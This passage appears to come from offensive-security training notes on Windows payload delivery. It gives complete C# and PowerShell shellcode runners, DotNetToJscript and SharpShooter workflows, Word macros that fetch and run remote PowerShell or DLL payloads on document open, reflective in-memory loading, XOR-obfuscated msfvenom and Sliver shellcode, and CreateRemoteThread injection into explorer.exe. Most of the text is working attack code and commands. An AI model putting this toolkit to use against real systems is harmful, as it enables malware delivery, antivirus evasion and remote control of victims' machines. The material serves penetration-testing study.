C data types must be translated to their C# equivalents. Use pinvoke.net as a reference for correct signatures. The shellcode runner requires three kernel32 functions: VirtualAlloc, CreateThread, and WaitForSingleObject.
| Win32 API | DLL | C# Return Type | Purpose |
|---|---|---|---|
| VirtualAlloc | kernel32.dll | IntPtr | Allocate RWX memory for shellcode |
| CreateThread | kernel32.dll | IntPtr | Spawn thread at shellcode address |
| WaitForSingleObject | kernel32.dll | UInt32 | Block until thread completes |
| MessageBoxA | user32.dll | int | Proof-of-concept Win32 API call |
Methodology
-
using System; using System.Diagnostics; using System.Runtime.InteropServices; -
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)] static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect); [DllImport("kernel32.dll")] static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId); [DllImport("kernel32.dll")] static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
5.5 Shellcode Runner in C#
The C# shellcode runner allocates executable memory with VirtualAlloc (flags 0x3000 = MEM_COMMIT|MEM_RESERVE, 0x40 = PAGE_EXECUTE_READWRITE), copies shellcode bytes using Marshal.Copy, then spawns a thread at that address with CreateThread. WaitForSingleObject with timeout 0xFFFFFFFF blocks indefinitely, keeping the process alive until the shell closes.
Shellcode can be generated two ways: msfvenom -f csharp for Meterpreter payloads, or Sliver's generate --format shellcode for native Sliver implants. The byte array is pasted directly into the buf variable.
Methodology
-
# Generate shellcode (raw binary), then convert for embedding sliver > generate --http [listener-ip] --os windows --arch amd64 --format shellcode --save /tmp/sliver.bin # Convert raw shellcode to C# byte array format python3 -c " data = open('/tmp/sliver.bin','rb').read() out = ', '.join(hex(b) for b in data) print(f'byte[] buf = new byte[{len(data)}] {{{out}}};') " > /tmp/sliver_bytes.txt -
using System; using System.Diagnostics; using System.Runtime.InteropServices; namespace ShellcodeRunner { class Program { [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)] static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect); [DllImport("kernel32.dll")] static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId); [DllImport("kernel32.dll")] static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds); static void Main(string[] args) { // Paste shellcode bytes here (msfvenom or Sliver generate output) byte[] buf = new byte[] { [shellcode-bytes] }; int size = buf.Length; IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40); System.Runtime.InteropServices.Marshal.Copy(buf, 0, addr, size); IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero); WaitForSingleObject(hThread, 0xFFFFFFFF); } } } -
sliver > sessions sliver > use [session-id] sliver ([SESSION]) > whoami
5.6 DotNetToJscript
DotNetToJscript (by James Forshaw) serializes a compiled C# assembly into a Base64 blob and wraps it in JScript that deserializes and executes it at runtime — entirely in memory. The tool produces a self-contained .js file containing three helper functions (setversion, debug, base64ToStream) and the deserialization logic using BinaryFormatter.Deserialize_2 and DynamicInvoke.
The target C# class must be decorated with [ComVisible(true)] and its entry point placed in the class constructor. DotNetToJscript sets the .NET runtime version via the COMPLUS_Version environment variable before loading the assembly. On newer .NET versions, comment out the legacy version check at line 154 of Program.cs in the DotNetToJscript project before compiling.
| DotNetToJscript Flag | Value | Purpose |
|---|---|---|
| --lang | Jscript / VBScript | Output script language |
| --ver | v4 | .NET framework version (use v4 for modern Windows) |
| -o | [filename].js | Output file path |
| -d | (flag only) | Enable debug output in generated script |
Methodology
-
# Copy DotNetToJscript to Kali Samba share from Windows dev machine # Or clone directly: cd /home/kali/data git clone https://github.com/tyranid/DotNetToJScript.git -
// Comment out this if-block in Program.cs ~line 154: // if (environment.Version.Major < 4) // { // throw new ArgumentException("..."); // } -
using System; using System.Diagnostics; using System.Runtime.InteropServices; [ComVisible(true)] public class TestClass { [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)] static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect); [DllImport("kernel32.dll")] static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId); [DllImport("kernel32.dll")] static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds); public TestClass() { // Paste shellcode bytes here (msfvenom or Sliver generate output) byte[] buf = new byte[] { [shellcode-bytes] }; int size = buf.Length; IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40); System.Runtime.InteropServices.Marshal.Copy(buf, 0, addr, size); IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero); WaitForSingleObject(hThread, 0xFFFFFFFF); } public void RunProcess(string path) { System.Diagnostics.Process.Start(path); } } -
C:\Tools> DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o runner.js -
sliver > http --lhost [listener-ip] --lport 443 -
sliver > sessions sliver > use [session-id] sliver ([SESSION]) > whoami
5.7 DotNetToJscript Generated Code Structure
Understanding the generated JScript is essential for adapting and troubleshooting the technique. The output file contains three helper functions followed by the deserialization and execution block. The Base64 blob is the full compiled ExampleAssembly.dll serialized with BinaryFormatter.
| Function / Variable | Purpose |
|---|---|
setversion() | Sets COMPLUS_Version env var to force .NET 4.0.30319 runtime |
debug(s) | Empty stub; populated only with -d flag |
base64ToStream(b) | Decodes Base64 blob to System.IO.MemoryStream using ASCIIEncoding and FromBase64Transform |
serialized_obj | Base64-encoded serialized .NET assembly (ExampleAssembly.dll) |
entry_class | Name of the class to instantiate ('TestClass') |
BinaryFormatter.Deserialize_2() | Deserializes the stream to a delegate; _2 suffix bypasses .NET security checks |
DynamicInvoke() | Invokes the deserialized delegate to get the assembly's activator |
CreateInstance(entry_class) | Instantiates the target class, calling its constructor (where shellcode executes) |
// Annotated structure of DotNetToJscript output (demo.js)
function setversion() {
new ActiveXObject('WScript.Shell')
.Environment('Process')('COMPLUS_Version') = 'v4.0.30319';
}
function debug(s) {}
function base64ToStream(b) {
var enc = new ActiveXObject("System.Text.ASCIIEncoding");
var length = enc.GetByteCount_2(b);
var ba = enc.GetBytes_4(b);
var transform = new ActiveXObject(
"System.Security.Cryptography.FromBase64Transform");
ba = transform.TransformFinalBlock(ba, 0, length);
var ms = new ActiveXObject("System.IO.MemoryStream");
ms.Write(ba, 0, (length / 4) * 3);
ms.Position = 0;
return ms;
}
var serialized_obj = "AAEAAAD/////AQAAAA..."; // Base64 blob of compiled DLL
var entry_class = 'TestClass';
try {
setversion();
var stm = base64ToStream(serialized_obj);
var fmt = new ActiveXObject(
'System.Runtime.Serialization.Formatters.Binary.BinaryFormatter');
var al = new ActiveXObject('System.Collections.ArrayList');
var d = fmt.Deserialize_2(stm);
al.Add(undefined);
var o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class);
} catch (e) {
debug(e.message);
}5.8 SharpShooter
SharpShooter is a Python-based payload generation framework that automates the DotNetToJscript workflow. It accepts raw shellcode as input, embeds it into a C# assembly, and outputs a weaponized JScript (or other format) file. The --stageless flag embeds the entire payload in the output file rather than fetching a staged payload via HTML smuggling.
SharpShooter uses Python 2, which is end-of-life. Install it carefully using the legacy pip2 bootstrap approach. Understand the underlying technique before relying on the tool, as security products may detect its characteristic output patterns.
| SharpShooter Flag | Value / Example | Purpose |
|---|---|---|
| --payload | js / vbs / hta | Output format |
| --dotnetver | 4 | Target .NET version |
| --stageless | (flag only) | Embed full payload (no HTML smuggling staging) |
| --rawscfile | /path/to/shell.bin | Raw shellcode input file |
| --output | test (no extension) | Output filename base |
Methodology
-
cd /opt sudo curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py sudo python2 ./get-pip.py sudo git clone https://github.com/mdsecactivebreach/SharpShooter.git cd SharpShooter sudo python2 -m pip install --upgrade setuptools pip==18.3.4 sudo pip2 install -r requirements.txt -
# Generate Sliver shellcode in raw binary format sliver > generate --http [listener-ip] --os windows --arch amd64 \ --format shellcode --save /var/www/html/shell.bin # Verify ls -la /var/www/html/shell.bin -
cd /opt/SharpShooter sudo python2 SharpShooter.py \ --payload js \ --dotnetver 4 \ --stageless \ --rawscfile /var/www/html/shell.bin \ --output [output-name] # Output will be at: output/[output-name].js -
sliver > http --lhost [listener-ip] --lport 443 -
sliver > sessions sliver > use [session-id] sliver ([SESSION]) > whoami
5.9 Reflective PowerShell Loading of C# Assembly
Rather than embedding shellcode in a JScript file, a compiled C# DLL can be hosted on a Kali web server and loaded directly into a PowerShell process in memory using System.Reflection.Assembly::Load(). This avoids writing the assembly to disk and separates the compilation step from the delivery step. The DLL must expose its entry point as a public static method so it is accessible via reflection.
The key distinction between LoadFile and Load: LoadFile reads from a path on disk (still touches disk), while Load accepts a byte array downloaded directly into memory. Use DownloadData with Load for a fully in-memory execution chain.
| Method | Input | Touches Disk? | Preferred For |
|---|---|---|---|
| Assembly::LoadFile() | File path string | Yes | Local testing only |
| Assembly::Load() | Byte array | No | In-memory delivery (operational use) |
Methodology
-
using System; using System.Diagnostics; using System.Runtime.InteropServices; namespace ClassLibrary1 { public class Class1 { [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)] static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect); [DllImport("kernel32.dll")] static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId); [DllImport("kernel32.dll")] static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds); public static void runner() { // Paste shellcode bytes here (msfvenom or Sliver generate output) byte[] buf = new byte[] { [shellcode-bytes] }; int size = buf.Length; IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40); System.Runtime.InteropServices.Marshal.Copy(buf, 0, addr, size); IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero); WaitForSingleObject(hThread, 0xFFFFFFFF); } } } -
cp /home/kali/data/ClassLibrary1/ClassLibrary1/bin/x64/Release/ClassLibrary1.dll \ /var/www/html/ClassLibrary1.dll sudo systemctl start apache2 -
sliver > http --lhost [listener-ip] --lport 80 -
# Fully in-memory load — no disk write $data = (New-Object System.Net.WebClient).DownloadData('http://[listener-ip]/ClassLibrary1.dll') $assem = [System.Reflection.Assembly]::Load($data) $class = $assem.GetType("ClassLibrary1.Class1") $method = $class.GetMethod("runner") $method.Invoke(0, $null) -
(New-Object System.Net.WebClient).DownloadFile( 'http://[listener-ip]/ClassLibrary1.dll', 'C:\Users\[user]\ClassLibrary1.dll') $assem = [System.Reflection.Assembly]::LoadFile("C:\Users\[user]\ClassLibrary1.dll") $class = $assem.GetType("ClassLibrary1.Class1") $method = $class.GetMethod("runner") $method.Invoke(0, $null) -
sliver > sessions sliver > use [session-id] sliver ([SESSION]) > whoami sliver ([SESSION]) > getpid
6. Reflective PowerShell
6.1 PowerShell and .NET — The Add-Type Problem
PowerShell relies on the .NET framework for runtime code execution. The most common approach is Add-Type, which invokes the Visual C# Command-Line Compiler to compile C# source code at runtime. While this avoids writing shellcode to disk, the compiler writes both the .cs source file and the resulting .dll assembly to the filesystem before loading them into the process — creating detectable artifacts.
These temporary files can be observed in Process Monitor as CreateFile, WriteFile, and CloseFile events for randomly named .cs and .dll files. The compiled assembly is then listed under [appdomain]::currentdomain.getassemblies(). AV engines can scan these disk writes and flag them before execution completes.
| Artifact | Extension | Created By | AV Risk |
|---|---|---|---|
| C# source code | .cs | Add-Type compiler | High — scanned on write |
| Compiled assembly | .dll | csc.exe (vbc compiler) | High — scanned on load |
| Temp directory | n/a | %TEMP% path | Medium — monitored path |
The goal of reflective PowerShell is to create assemblies entirely in memory, bypassing the compilation step and eliminating all disk artifacts. This requires leveraging already-loaded .NET assemblies and the reflection API.
Methodology
-
[appdomain]::currentdomain.getassemblies() | Sort-Object -Property fullname | Format-Table fullname -
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies() $Assemblies | ForEach-Object { $_.GetTypes() | ForEach-Object { $_ | Get-Member -Static | Where-Object { $_.TypeName.Contains('Unsafe') } } 2> $null } -
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies() $Assemblies | ForEach-Object { $_.Location $_.GetTypes() | ForEach-Object { $_ | Get-Member -Static | Where-Object { $_.TypeName.Equals('Microsoft.Win32.UnsafeNativeMethods') } } 2> $null }
6.2 Leveraging UnsafeNativeMethods
Microsoft.Win32.UnsafeNativeMethods inside System.dll contains internal static implementations of GetModuleHandle and GetProcAddress. These methods are not publicly accessible — they are marked internal — so they cannot be called directly from PowerShell or C#. The solution is to use .NET reflection to obtain references to them at runtime and invoke them indirectly through the Invoke method.
GetModuleHandle returns the base memory address of a DLL that is already loaded into the process. GetProcAddress takes that base address and a function name string and returns the absolute memory address of the target function. Together, these two APIs can resolve the address of any Win32 function dynamically without Add-Type or any disk write.
| Win32 API | DLL | Purpose | Arguments |
|---|---|---|---|
GetModuleHandle | kernel32.dll | Returns base address of loaded DLL | string modName |
GetProcAddress | kernel32.dll | Returns address of exported function | IntPtr hModule, string methodName |
Because GetProcAddress has multiple overloads in UnsafeNativeMethods, calling GetMethod('GetProcAddress') throws an AmbiguousMatchException. The workaround is to use GetMethods(), enumerate all methods, filter by name, and store the results in an array. The LookupFunc helper below wraps this entire resolution chain into a reusable function.
Methodology
-
$systemdll = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }) $unsafeObj = $systemdll.GetType('Microsoft.Win32.UnsafeNativeMethods') -
$GetModuleHandle = $unsafeObj.GetMethod('GetModuleHandle') $GetModuleHandle.Invoke($null, @("user32.dll")) -
$tmp = @() $unsafeObj.GetMethods() | ForEach-Object { If($_.Name -eq "GetProcAddress") { $tmp += $_ } } $GetProcAddress = $tmp[0] -
function LookupFunc { Param ($moduleName, $functionName) $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods') $tmp = @() $assem.GetMethods() | ForEach-Object { If($_.Name -eq "GetProcAddress") { $tmp += $_ } } return $tmp[0].Invoke($null, @( ($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName )) } -
$user32 = (LookupFunc user32.dll GetModuleHandle) LookupFunc user32.dll MessageBoxA # Compare hex output against Process Explorer > user32.dll > Load Address
6.3 DelegateType Reflection
Resolving a Win32 API address is only half the problem — calling the function also requires a delegate type that defines the function's signature (parameter types and return type). In C#, this is a delegate declaration compiled at build time. In PowerShell, there is no delegate keyword, so the delegate type must be constructed entirely at runtime using the System.Reflection.Emit namespace.
The process builds a synthetic in-memory assembly containing a single module, a custom type that inherits MulticastDelegate, and an Invoke method that matches the target API's signature. Once the type is created with CreateType(), it is passed alongside the resolved function address to Marshal.GetDelegateForFunctionPointer, which returns a callable .NET delegate backed by the raw Win32 function pointer.
| Step | .NET Method | Purpose |
|---|---|---|
| 1 | DefineDynamicAssembly | Create in-memory assembly with Run access (no disk write) |
| 2 | DefineDynamicModule | Add a module inside the assembly (no symbol info) |
| 3 | DefineType | Create a class type inheriting MulticastDelegate |
| 4 | DefineConstructor | Set constructor with correct parameter types for the API |
| 5 | DefineMethod("Invoke") | Define Invoke method with return type and parameter types |
| 6 | CreateType | Finalize and instantiate the delegate type |
| 7 | GetDelegateForFunctionPointer | Bind resolved function address to delegate type |
Methodology
-
function getDelegateType { Param ( [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func, [Parameter(Position = 1)] [Type] $delType = [Void] ) $type = [AppDomain]::CurrentDomain. DefineDynamicAssembly( (New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run). DefineDynamicModule('InMemoryModule', $false). DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate]) $type.DefineConstructor( 'RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed') $type.DefineMethod( 'Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed') return $type.CreateType() } -
$MessageBoxA = LookupFunc user32.dll MessageBoxA $MyFunction = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer( $MessageBoxA, (getDelegateType @([IntPtr], [String], [String], [int]) ([int])) ) $MyFunction.Invoke([IntPtr]::Zero, "Test", "Reflective PS", 0)
6.4 Reflection Shellcode Runner in PowerShell
With LookupFunc and getDelegateType available, the full shellcode runner replaces every Add-Type P/Invoke declaration with an inline call to resolve and bind each Win32 API. The three APIs needed are VirtualAlloc (allocate RWX memory), CreateThread (spawn a thread at the shellcode buffer), and WaitForSingleObject (block the process from exiting). The shellcode byte array is copied into the allocated buffer with the .NET Marshal.Copy method, which requires no additional Win32 resolution.
Generate shellcode before constructing the runner — either via msfvenom -f raw for Meterpreter or sliver > generate --format shellcode for a native Sliver implant. The bytes slot directly into the $buf array. No file touches disk during execution — Process Monitor will show no .cs or .dll write events.
| Win32 API | DLL | Delegate Parameter Types | Return Type |
|---|---|---|---|
VirtualAlloc | kernel32.dll | [IntPtr], [UInt32], [UInt32], [UInt32] | [IntPtr] |
CreateThread | kernel32.dll | [IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr] | [IntPtr] |
WaitForSingleObject | kernel32.dll | [IntPtr], [Int32] | [Int] |
Methodology
-
# In Sliver console sliver > generate --http [listener-ip] --os windows --arch amd64 --format shellcode --save /tmp/[implant-name].bin -
xxd -i /tmp/[implant-name].bin | grep -oP '0x[0-9a-f]+' | tr '\n' ',' | sed 's/,$/\n/' # Paste output as: [Byte[]] $buf = 0xfc,0x48,... -
function LookupFunc { Param ($moduleName, $functionName) $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods') $tmp = @() $assem.GetMethods() | ForEach-Object { If($_.Name -eq "GetProcAddress") { $tmp += $_ } } return $tmp[0].Invoke($null, @( ($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName )) } function getDelegateType { Param ( [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func, [Parameter(Position = 1)] [Type] $delType = [Void] ) $type = [AppDomain]::CurrentDomain. DefineDynamicAssembly( (New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run). DefineDynamicModule('InMemoryModule', $false). DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate]) $type.DefineConstructor( 'RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed') $type.DefineMethod( 'Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed') return $type.CreateType() } [Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0 # paste full shellcode bytes here $lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer( (LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])) ).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40) [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length) $hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer( (LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr])) ).Invoke([IntPtr]::Zero, 0, $lpMem, [IntPtr]::Zero, 0, [IntPtr]::Zero) [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer( (LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int])) ).Invoke($hThread, 0xFFFFFFFF) -
# Terminal 1 — Sliver listener sliver > http -l [listener-port] # Terminal 2 — serve the PS1 file cp reflective_runner.ps1 /var/www/html/run.ps1 python3 -m http.server 80 --directory /var/www/html -
IEX (New-Object System.Net.WebClient).DownloadString('http://[listener-ip]/run.ps1')
6.5 Reflective PowerShell in Office Macros
A Word macro can deliver the reflective shellcode runner without any disk artifact by using a download cradle that fetches and executes the PowerShell script entirely in memory. The VBA macro calls Shell to spawn PowerShell with a DownloadString + IEX one-liner. The Document_Open and AutoOpen event handlers ensure execution occurs as soon as the document is opened and macros are enabled.
The key difference from earlier macro-based runners is the hosted script content. The run.ps1 file served from the attacker's web server now contains the full reflective runner (with LookupFunc, getDelegateType, and the shellcode bytes) instead of an Add-Type based runner. The macro itself does not change — only the hosted payload changes.
Methodology
-
cp reflective_runner.ps1 /var/www/html/run.ps1 systemctl start apache2 -
' VBA macro content (paste into Word VBA editor: Alt+F11) Sub MyMacro() Dim str As String str = "powershell (New-Object System.Net.WebClient).DownloadString('http://[listener-ip]/run.ps1') | IEX" Shell str, vbHide End Sub Sub Document_Open() MyMacro End Sub Sub AutoOpen() MyMacro End Sub -
sliver > http -l [listener-port] -
sliver > sessions sliver > use [session-id] sliver ([session-name]) > info
6.6 Reflective C# in Client-Side Attacks
Rather than using Add-Type to compile C# at runtime (which writes to disk), a pre-compiled C# Class Library DLL can be downloaded as a byte array and loaded directly into memory using System.Reflection.Assembly::Load. This approach separates compilation (done once on the attacker's machine) from execution (done entirely in memory on the target). The DLL exposes a public static void runner() method that contains the shellcode runner logic.
The C# Class Library project uses standard DllImport declarations for VirtualAlloc, CreateThread, and WaitForSingleObject. After compilation, the resulting .dll is served from the attacker's web server. PowerShell downloads it as a byte array with DownloadData, loads it with Assembly::Load, and invokes the runner method via reflection — the DLL never touches the target's disk.
| Method | Disk Write? | How DLL Is Loaded | Use Case |
|---|---|---|---|
Assembly::LoadFile | Yes — downloads to path first | From local file path | Testing only |
Assembly::Load | No | From byte array in memory | Operational use |
Methodology
-
# In Visual Studio: File > New > Project > Class Library (.NET Framework) # Project name: ClassLibrary1 # Accept default namespace -
using System; using System.Runtime.InteropServices; namespace ClassLibrary1 { public class Class1 { [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)] static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect); [DllImport("kernel32.dll")] static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId); [DllImport("kernel32.dll")] static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds); public static void runner() { // Paste shellcode bytes here (msfvenom -f csharp or Sliver generate output) byte[] buf = new byte[] { 0xfc, 0x48, 0x83, 0xe4, 0xf0 }; int size = buf.Length; IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)size, 0x3000, 0x40); Marshal.Copy(buf, 0, addr, size); IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero); WaitForSingleObject(hThread, 0xFFFFFFFF); } } } -
sliver > generate --http [listener-ip] --os windows --arch amd64 --format shellcode --save /tmp/sliver.bin # Convert to C# byte array format python3 -c " data = open('/tmp/sliver.bin','rb').read() ba = ', '.join(hex(b) for b in data) print('byte[] buf = new byte[] {' + ba + '};') " -
# In Visual Studio: Build > Build Solution (Release / x64) # Copy output DLL to attacker web root cp /mnt/share/ClassLibrary1/bin/Release/ClassLibrary1.dll /var/www/html/ systemctl start apache2 -
sliver > http -l [listener-port] -
$data = (New-Object System.Net.WebClient).DownloadData('http://[listener-ip]/ClassLibrary1.dll') $assem = [System.Reflection.Assembly]::Load($data) $class = $assem.GetType('ClassLibrary1.Class1') $method = $class.GetMethod('runner') $method.Invoke(0, $null) -
' VBA macro — reflective C# loader via PowerShell Sub MyMacro() Dim str As String str = "powershell -w hidden -c """ & _ "$d=(New-Object Net.WebClient).DownloadData('http://[listener-ip]/ClassLibrary1.dll');" & _ "$a=[Reflection.Assembly]::Load($d);" & _ "$a.GetType('ClassLibrary1.Class1').GetMethod('runner').Invoke(0,$null)" & _ """" Shell str, vbHide End Sub Sub Document_Open() MyMacro End Sub Sub AutoOpen() MyMacro End Sub -
sliver > sessions sliver > use [session-id] sliver ([session-name]) > info # On target (optional verification) # dir C:\Users\[user]\AppData\Local\Temp\*.dll
7. Process Injection and Migration
7.1 Process Injection Theory
Process injection allows an attacker to execute arbitrary code inside a remote process. The primary motivation is persistence and evasion: if the initial loader (a Word macro, JScript, or PowerShell runner) is closed, the implant survives inside the target process. A secondary benefit is that network traffic appears to originate from a legitimate host process such as explorer.exe.
Windows enforces process isolation through virtual memory spaces, but the Win32 API exposes a set of functions that intentionally cross those boundaries. Access is gated by process Security Descriptors and Integrity Levels — a Medium Integrity process can inject into another Medium or lower process, but cannot inject into a High Integrity process without first elevating.
| Win32 API | DLL | Purpose in Injection Chain |
|---|---|---|
| OpenProcess | kernel32.dll | Obtain a handle to the target process |
| VirtualAllocEx | kernel32.dll | Allocate RWX memory inside the remote process |
| WriteProcessMemory | kernel32.dll | Copy shellcode into the remote allocation |
| CreateRemoteThread | kernel32.dll | Spawn a thread at the shellcode address |
| ReadProcessMemory | kernel32.dll | Read memory from a remote process (used in hollowing) |
| ResumeThread | kernel32.dll | Resume a suspended thread (used in hollowing) |
| Migration Path | Supported | Notes |
|---|---|---|
| 64-bit → 64-bit | Yes | Standard path; most common in practice |
| 64-bit → 32-bit | Yes | Works but shellcode must match target arch |
| 32-bit → 32-bit | Yes | Works as expected |
| 32-bit → 64-bit | No (via CreateRemoteThread) | Requires custom assembly for mode switch; out of scope |
Methodology
-
sliver ([session]) > ps -e explorer
7.2 Shellcode Injection in C#
The four Win32 APIs are imported via P/Invoke. OpenProcess with PROCESS_ALL_ACCESS (0x001F0FFF) opens a handle; VirtualAllocEx carves out RWX memory (MEM_COMMIT|MEM_RESERVE = 0x3000, PAGE_EXECUTE_READWRITE = 0x40); WriteProcessMemory copies the shellcode; and CreateRemoteThread kicks off execution at the allocated address.
The target process ID changes on every login. Resolve it dynamically using Process.GetProcessesByName rather than hardcoding it. Always compile for x64 when injecting into 64-bit processes.
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
namespace Inject
{
class Program
{
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress,
uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
[DllImport("kernel32.dll")]
static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes,
uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter,
uint dwCreationFlags, IntPtr lpThreadId);
static void Main(string[] args)
{
// Resolve target PID dynamically
Process[] targetProc = Process.GetProcessesByName("explorer");
int pid = targetProc[0].Id;
// Open handle with PROCESS_ALL_ACCESS
IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
// Allocate RWX memory in remote process
IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
// Insert XOR-decoded shellcode here
byte[] buf = new byte[] { /* shellcode bytes */ };
IntPtr outSize;
WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
// Execute shellcode in new remote thread
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0,
addr, IntPtr.Zero, 0, IntPtr.Zero);
}
}
}Methodology
-
sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[listener-ip] LPORT=[listener-port] \ EXITFUNC=thread -f raw | python3 -c \ 'key = 2; import sys; data = sys.stdin.buffer.read(); encrypted = bytes([b ^ key for b in data]); \ print(f"byte[] buf = new byte[{len(encrypted)}] {{ " + ", ".join([f"0x{b:02X}" for b in encrypted]) + " };")' -
profiles new --http [listener-ip]:[listener-port] --format shellcode osep stage-listener --url tcp://[listener-ip]:[listener-port] --profile osep http -L [listener-ip] --lport [listener-port] -
sliver ([session]) > ps -e explorer
7.3 DLL Injection
Instead of raw shellcode, DLL injection forces the remote process to load an unmanaged DLL via LoadLibraryA. The trick is that LoadLibraryA cannot be called directly on a remote process, but its address inside the remote process is the same as in the current process (native DLLs share base addresses). Passing LoadLibraryA as the start address of a CreateRemoteThread call — and the DLL path as the argument — causes the remote process to load the DLL itself.
The malicious DLL places its shellcode inside the DLL_PROCESS_ATTACH case of DllMain. When LoadLibrary loads the DLL, it calls DllMain, which fires the shellcode automatically. The DLL must be unmanaged (C/C++); managed C# DLLs cannot be loaded this way. This technique writes the DLL to disk, which is its main operational weakness.
| Additional API | Purpose |
|---|---|
| GetModuleHandle("kernel32.dll") | Get handle to kernel32 in current process |
